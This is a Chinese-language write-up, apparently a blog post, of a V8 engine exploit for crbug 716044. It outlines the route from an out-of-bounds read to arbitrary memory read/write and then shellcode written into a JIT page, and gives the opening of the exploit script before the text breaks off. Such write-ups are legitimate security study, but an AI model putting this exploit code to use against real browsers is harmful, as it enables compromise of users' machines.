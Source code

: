 

## 思路

• 通过越界读，修改length构造出任意读写

• 覆写JIT page上的一部分代码，也即写入shellcode

• 调用对应函数执行shellcode

通过function其中的CodeEntry找到JIT区域，然后写入shellcode，我们先得到code函数的地址

```
var js_function_addr = oob_rw[10]; // JSFunction for code() in the `leak` FixedArray.
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t017167601a4ec64368.png)

其余内容都在exp的注释里



## exp

```
// v8 exploit for https://crbug.com/716044
var oob_rw = null;
var leak = null;
var arb_rw = null;
var code = function() `{`
return 1;
`}`
code();
class BuggyArray extends Array `{`
constructor(len) `{`
super(1);
oob_rw = new Array(1.1, 1.1); //浮点数是FixedDoubleArray
leak = new Array(code); //用来leak出函数地址，用来写入shellcode
arb_rw = new ArrayBuffer(4); //buffer
`}`
`}`;
//https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/@@species
class MyArray extends Array `{`
static get [Symbol.species]() `{`
return BuggyArray;
`}`
`}`
//格式转换，不懂可以看上面的入门文章
var convert_buf = new ArrayBuffer(8);
var float64 = new Float64Array(convert_buf);
var uint8 = new Uint8Array(convert_buf);
var uint32 = new Uint32Array(convert_buf);
function Uint64Add(dbl, to_add_int) `{`
float64[0] = dbl;
var lower_add = uint32[0] + to_add_int;
if (lower_add &gt; 0xffffffff) `{`
lower_add &amp;= 0xffffffff;
uint32[1] += 1;
`}`
uint32[0] = lower_add;
return float64[0];
`}`
// Memory layout looks like this:
// ================================================================================
// |a_ BuggyArray (0x80) | a_ FixedArray (0x18) | oob_rw JSArray (0x30) |
// --------------------------------------------------------------------------------
```